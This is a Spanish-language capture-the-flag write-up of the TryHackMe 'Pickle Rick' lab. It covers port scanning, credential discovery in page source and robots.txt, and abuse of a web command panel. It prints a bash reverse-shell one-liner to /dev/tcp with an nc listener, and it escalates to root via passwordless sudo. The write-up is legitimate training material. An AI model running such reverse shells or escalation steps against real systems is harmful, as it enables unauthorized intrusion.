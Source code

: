 ```yaml
---
title: "Pickle Rick - Try Hack Me"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/PickleRick/data/pickleRick.png?raw=true"
  teaser_home_page: true
  icon: "assets/images/icons/TryHackMe.png"
categories:
  - Writeup
  - TryHackMe
tags:
  - Enumeración
  - Bash
---
```


<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/PickleRick/data/pickleRickTHMpng.png?raw=true">
</p>

La máquina **Pickle Rick** es una máquina virtual vulnerable de la plataforma **Try Hack Me** con un nivel de dificultad **medio**  desarrollada por **tryhackme** y publicada **10 de marzo del 2019** con un sistema operativo **Linux**.

# Port Scan

  Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.197.4]** utilizando los parámetros:

  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con un estatus abierto.
  - **-oG:**    Guarda la el output en formato Grepeable.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/scanPort.png">
  </p>


  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22 y 80**:  

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/Ports.png">
  </p>


  Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/PortServ.png">
  </p>

  Ya que el escaneo de versiones y servicios no mostró demasiado empezamos a enumerar un poco mas a nivel web así que entre a la pagina ya que cuenta con un servicio **http** por el puerto **80** al entrar pude ver lo siguiente:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/web.png">
  </p>

  Curios curioso vemos que esta hablando que necesita conseguir 3 ingredientes los cuales son las **flags** que buscamos y menciona que perdió una contraseña asi que puede ser una pista para nosotros, enumerando el código fuente de la pagina se puede ver a modo comentado lo siguiente:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/pass.png">
  </p>

  Ahora que tenemos un usuario el cual es **R1ckRul3s** podemos pensar que puede existir un login así que si hacemos enumeración web básica antes de emplear un fuzzing a nivel de rutas podemos probar con el recurso **Robots.txt**:


  En este caso el recurso **Robots.txt** si estaba disponible, recordar que el recursos **Robots.txt** es un recursos que nos muestra rutas existentes a nivel de directorios en las paginas web, la mayoría de las paginas lo deshabilitado ya que es una buena practica en este caso no se deshabilitó y lo podemos usar para encontrar directorios o recursos sin necesidad de hacer fuerza bruta.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/wubba.png">
  </p>

  Vemos que tiene un recurso llamado **"Wubbalubbadubdub"** pero vemos que si entramos por la pagina web a este supuesto subdirectorio nos marca como error 404 el cual indica que no existe, ya que vimos esto intentamos buscar otras formas de encontrar rutas así que si buscamos algo clásico como "login.php" puede y encontremos algo:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/log.png">
  </p>

  Excelente ahora que tenemos un login podemos usar la credencial de usuario que encontramos en el código fuente y ya que lo que encontramos en Robots no fue un directorio lo usaremos como contraseña:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/webcmd.png">
  </p>

# Lateral Movement

  Super bien vemos que tenemos un panel el cual se llama **"Command Panel"** lo que es mas que obvio que es una gran pista, ingresamos un **"whoami"** y vemos que nos responde la maquina como el usuario **"www-data"**

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/whoami.png">
  </p>

  Así que si vemos que tenemos ejecución de comando pues entonces nos daremos una shell.
  Para esto me pondré por el puerto 443 en escucha con el comando ```nc -nlvp 443``` y en la web pondré lo siguiente:

  ```bash
    /bin/bash -c 'bash -i >& /dev/tcp/[Your IP]/443 0>&1'
  ```

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/shell1.png">
  </p>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/shell2.png">
  </p>

  Como vemos en nuestra consola ya tenemos acceso a la maquina y vemos que el mismo directorio se encuentra la primer flag y yendo a la ruta /home veo que hay dos usuarios, la carpeta de usuario **rick** se puede encontrar la segunda flag:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/flag1.png">
  </p>
  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/flag2.png">
  </p>

# Privilege escalation

  Ahora es momento de escalar privilegios para eso vemos si el usuario en el que actualmente estamos tiene algún permiso especial a nivel de **sudo** sin proporcionar contraseña eso lo vemos con el comando ```sudo -l```.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/sudo.png">
  </p>

  Y sorprendentemente tenemos a nivel de **sudo** si proporcionar contraseña tenemos permisos absolutos así que podemos spawnearnos una shell con el siguiente comando:

  ```bash
  sudo /bin/bash
  ```
  Y como vemos ya somos root en la maquina a si que nos dirigimos al directorio de root y podemos visualizar la ultima flag y así concluyendo esta maquina.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/root.png">
  </p>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/flag3.png">
  </p>
